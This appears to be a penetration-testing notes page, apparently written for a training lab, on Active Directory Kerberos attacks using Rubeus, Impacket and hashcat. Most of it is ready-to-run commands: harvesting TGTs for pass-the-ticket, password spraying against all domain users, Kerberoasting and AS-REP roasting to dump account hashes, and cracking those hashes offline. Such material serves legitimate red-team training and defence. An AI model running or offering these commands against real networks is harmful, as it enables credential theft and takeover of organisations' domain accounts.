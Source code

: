 # Rubeus

> Rubeus include many tools and attacks include overpass the hash, ticket requests and renewals, ticket management, ticket extraction, harvesting, pass the ticket, AS-REP Roasting, and Kerberoasting, etc.

{% embed url="https://github.com/GhostPack/Rubeus" %}

## Harvesting Tickets

_For pass the ticket attack_

`cd Downloads` - navigate to the directory Rubeus is in

`Rubeus.exe harvest /interval:30` - This command tells Rubeus to harvest for TGTs every 30 seconds

<figure><img src="../../../.gitbook/assets/image (3).png" alt="" width="563"><figcaption></figcaption></figure>

## Brute-Forcing / Password-Spraying

In password spraying, you give a single password such as Password1 and "spray" against all found user accounts in the domain to find which one may have that password.

This attack will take a given Kerberos-based password and spray it against all found users and give a .kirbi ticket. This ticket is a TGT that can be used in order to get service tickets from the KDC as well as to be used in attacks like the pass the ticket attack.

Before password spraying with Rubeus, you need to add the domain controller domain name to the windows host file. You can add the IP and domain name to the hosts file from the machine by using the echo command:

`echo MACHINE_IP CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts`

`cd Downloads` - navigate to the directory Rubeus is in

`Rubeus.exe brute /password:Password1 /noticket` - This will take a given password and "spray" it against all found users then give the .kirbi TGT for that user

<figure><img src="../../../.gitbook/assets/image (4).png" alt="" width="523"><figcaption></figcaption></figure>

## Kerberoasting

### Rubeus

`cd Downloads` - navigate to the directory Rubeus is in

`Rubeus.exe kerberoast` This will dump the Kerberos hash of any kerberoastable users

copy the hash onto your attacker machine and put it into a .txt file so we can crack it with hashcat

`hashcat -m 13100 -a 0 hash.txt wordlist.txt` - now crack that hash

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt="" width="563"><figcaption></figcaption></figure>

### Impacket

**Impacket Installation**

`cd /opt` navigate to your preferred directory to save tools in

download the precompiled package from https://github.com/SecureAuthCorp/impacket/releases/tag/impacket\_0\_9\_19

`cd Impacket-0.9.19` navigate to the impacket directory

`pip install .` - this will install all needed dependencies

**Kerberoasting w/ Impacket**

`cd /usr/share/doc/python3-impacket/examples/` - navigate to where GetUserSPNs.py is located

`sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip MACHINE_IP -request` - this will dump the Kerberos hash for all kerberoastable accounts it can find on the target domain just like Rubeus does; however, this does not have to be on the targets machine and can be done remotely.

`hashcat -m 13100 -a 0 hash.txt wordlist.txt` - now crack that hash

## AS-REP Roasting

AS-REP Roasting dumps the krbasrep5 hashes of user accounts that have Kerberos pre-authentication disabled. Unlike Kerberoasting these users do not have to be service accounts the only requirement to be able to AS-REP roast a user is the user must have pre-authentication disabled.

### Dumping KRBASREP5 hashes

`cd Downloads` - navigate to the directory Rubeus is in

`Rubeus.exe asreproast` - This will run the AS-REP roast command looking for vulnerable users and then dump found vulnerable user hashes.

Crack hash with hashcat
